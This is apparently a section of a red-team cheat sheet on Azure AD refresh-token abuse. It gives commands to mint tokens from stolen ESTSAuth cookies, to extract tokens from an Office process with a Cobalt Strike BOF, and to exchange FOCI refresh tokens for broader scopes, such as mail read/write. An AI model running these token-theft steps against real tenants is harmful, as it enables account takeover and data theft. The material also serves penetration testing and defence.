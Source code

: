 
## Refresh Token

* Requesting a token using credentials
    ```ps1
    TODO
    ```


### Get a Refresh Token from ESTSAuth Cookie

`ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`.

```ps1
TokenTacticsV2> Get-AzureTokenFromESTSCookie -ESTSAuthCookie "0.AS8"
TokenTacticsV2> Get-AzureTokenFromESTSCookie -Client MSTeams -ESTSAuthCookie "0.AbcAp.."
```


### Get a Refresh Token from Office process

* [trustedsec/CS-Remote-OPs-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF)
```ps1
load bofloader
execute_bof /opt/CS-Remote-OPs-BOF/Remote/office_tokens/office_tokens.x64.o --format-string i  7324
```


## FOCI Refresh Token

FOCI allows applications registered with Azure AD to share tokens, minimizing the need for separate authentications when a user accesses multiple applications that are part of the same "family."

* [secureworks/family-of-client-ids-research/](https://github.com/secureworks/family-of-client-ids-research/blob/main/scope-map.txt) - Research into Undocumented Behavior of Azure AD Refresh Tokens

**Generate tokens**   

```ps1
roadtx gettokens --refresh-token <refresh-token> -c <foci-id> -r https://graph.microsoft.com 
roadtx gettokens --refresh-token <refresh-token> -c 04b07795-8ddb-461a-bbee-02f9e1bf7b46
```

```
scope               resource                                client                              
.default            04b07795-8ddb-461a-bbee-02f9e1bf7b46    04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    1950a258-227b-4e31-a9cf-717495945fc2    1950a258-227b-4e31-a9cf-717495945fc2
                    https://graph.microsoft.com             00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    https://graph.windows.net               00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    https://outlook.office.com              00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
Files.Read.All      d3590ed6-52b3-4102-aeff-aad2292ab01c    d3590ed6-52b3-4102-aeff-aad2292ab01c
                    https://graph.microsoft.com             3590ed6-52b3-4102-aeff-aad2292ab01c
                    https://outlook.office.com              1fec8e78-bce4-4aaf-ab1b-5451cc387264
Mail.ReadWrite.All  https://graph.microsoft.com             00b41c95-dab0-4487-9791-b9d2c32c80f2
                    https://outlook.office.com              00b41c95-dab0-4487-9791-b9d2c32c80f2
                    https://outlook.office365.com           00b41c95-dab0-4487-9791-b9d2c32c80f2
```
